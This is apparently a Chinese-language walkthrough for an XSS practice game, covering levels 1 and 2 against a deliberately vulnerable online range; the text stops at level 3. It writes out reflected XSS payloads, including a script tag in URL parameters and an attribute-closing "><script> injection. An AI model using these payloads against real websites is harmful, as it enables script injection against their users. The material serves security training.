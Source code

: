 # xss-challenge-tour

参考资料：[xss小游戏1-20，详细攻略（level14，level19详解）_xss闯关1-20-CSDN博客](https://blog.csdn.net/jhfjdf/article/details/118739128)

在线靶场：https://www.bachang.org/



## 1.

```
?name=<script>alert(1)</script>
```

熟悉



## 2.

进行同样的测试

输入框输入

```
<script>alert('xss');</script>
```



```
?keyword=<script>alert(1)</script>&submit=搜索
```



F12观察到某个value变成了

```
<input name=keyword  value="<script>alert(1)</script>">
```



所以构造闭合，来让js代码执行



前面加上">直接让标签闭合即可

```
"><script>alert(1)</script>
```



## 3.

同样的

输入框输入
